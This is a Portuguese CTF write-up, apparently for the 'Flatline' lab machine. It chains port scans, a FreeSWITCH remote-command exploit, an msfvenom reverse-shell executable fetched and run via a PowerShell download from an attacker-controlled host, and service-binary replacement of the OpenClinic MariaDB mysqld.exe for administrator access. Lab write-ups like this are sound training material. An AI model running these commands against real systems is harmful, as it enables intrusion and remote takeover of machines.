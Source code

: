 # Flatline

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.93.165
```
![image](https://github.com/lufffe/Writeups/assets/90646635/32546ca4-5f96-475d-a76d-7f652d72ac48)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 3389,8021 10.10.93.165 -Pn
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6c238c0d-5f3c-49ad-a1d3-6c51df0f872a)

* ### Exploit para o FreeSWITCH.
![image](https://github.com/lufffe/Writeups/assets/90646635/6037eeca-b96d-46c8-806b-34ccfbcb4337)

* ### Rodando exploit.
```bash
python 47799.py 10.10.93.165 whoami
```
![image](https://github.com/lufffe/Writeups/assets/90646635/306d2976-ee7f-456d-a951-334275bea187)

* ### Rodando exploit.
```bash
python 47799.py 10.10.93.165 dir
```

* ### Caminho para ler a flag de Usuário.
```bash
python 47799.py 10.10.93.165 'type c:\\users\\Nekrotic\\Desktop\\user.txt'
```

* ### Escalando previlégio do usuário, criando um arquivo executavel com uma reverse shell nele.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4455 -f exe > rv.exe
```

* ### Transferindo o arquivo para a maquina e executando ela, basta apenas colocar o netcat para escutar a porta escolhida.
```bash
python3 47799.py 10.10.93.165 "powershell.exe Invoke-WebRequest -Uri http://IP:8000/rv.exe -OutFile ./rv.exe && .\rv.exe"
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f27f3d02-2d70-478d-8986-832e1ce2f339)

* ### Depois de gastar um tempo procurando, identifiquei uma pasta diferente no disco C:.
![image](https://github.com/lufffe/Writeups/assets/90646635/d002a969-af5c-4aab-8d2e-0bd51873a354)


* ### Gerei outro arquivo com o msfvenom com o nome de mysqld.exe, só que em outra porta.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4445 -f exe > mysqld.exe
```

* ### E então parei o serviço, troquei os arquivos e startei o serviço novamente e conseguir a shell de administrador.

* c:\\Users\\Nekrotic\\Desktop>copy rv.exe c:\\projects\\openclinic\\mariadb
* c:\\projects\\openclinic\\mariadb>move rv.exe mysqld.exe
* c:\\projects\\openclinic\\mariadb\\bin>net stop OpenClinicMySQL
* c:\\projects\\openclinic\\mariadb\\bin>del mysqld.exe
* c:\\projects\\openclinic\\mariadb>move mysqld.exe bin/
* c:\\projects\\openclinic\\mariadb\\bin>net start OpenClinicMySQL

![image](https://github.com/lufffe/Writeups/assets/90646635/e2b3c0de-f3ed-42a0-b3b0-d4693ab64b7b)



* ### E aqui encontramos a flag root, e conseguimos ler agora.
c:\Users\Nekrotic\Desktop>type root.txt


